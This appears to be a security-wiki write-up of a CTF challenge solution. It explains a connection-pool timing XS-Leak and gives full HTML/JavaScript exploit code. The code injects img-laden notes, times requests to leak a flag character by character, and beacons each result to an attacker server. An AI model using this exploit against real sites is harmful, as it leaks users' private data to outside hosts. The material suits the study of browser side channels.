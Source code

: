 # Connection Pool by Destination Example

{{#include ../../banners/hacktricks-training.md}}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Let's see how this exploit work:

- The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
- Then, the attacker will **remove** the **note** with index 1.
- Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.&#x20;
  - If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

> [!NOTE]
> Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code

```html
<html>
  <head>
    <script>
      const SITE_URL = "https://safelist.ctf.sekai.team/"
      const PING_URL = "https://myserver"
      function timeScript() {
        return new Promise((resolve) => {
          var x = document.createElement("script")
          x.src =
            "https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
          var start = Date.now()
          x.onerror = () => {
            console.log(`Time: ${Date.now() - start}`) //Time request
            resolve(Date.now() - start)
            x.remove()
          }
          document.body.appendChild(x)
        })
      }

      add_note = async (note) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "create"
        x.method = "POST"
        x.target = "xxx"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "text"
        i.value = note
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      remove_note = async (note_id) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "remove"
        x.method = "POST"
        x.target = "_blank"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "index"
        i.value = note_id
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
      // }zyxwvutsrqponmlkjihgfedcba_
      const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
      var prefix = "SEKAI{xsleakyay"
      const TIMEOUT = 500
      async function checkLetter(letter) {
        // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
        // Depending whether we found flag's letter it will either load the images or not.
        // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
        const payload =
          `${prefix}${letter}` +
          Array.from(Array(78))
            .map((e, i) => `<img/src=/js/purify.js?${i}>`)
            .join("")
        await add_note(payload)
        await sleep(TIMEOUT)
        await timeScript()
        await remove_note(1) //Now, only the note with the flag or with the injection existsh
        await sleep(TIMEOUT)
        const time = await timeScript() //Find out how much a request to the same origin takes
        navigator.sendBeacon(PING_URL, [letter, time])
        if (time > 100) {
          return 1
        }
        return 0
      }
      window.onload = async () => {
        navigator.sendBeacon(PING_URL, "start")
        // doesnt work because we are removing flag after success.
        // while(1){
        for (const letter of alphabet) {
          if (await checkLetter(letter)) {
            prefix += letter
            navigator.sendBeacon(PING_URL, prefix)
            break
          }
        }
        // }
      }
    </script>
  </head>
  <body></body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}

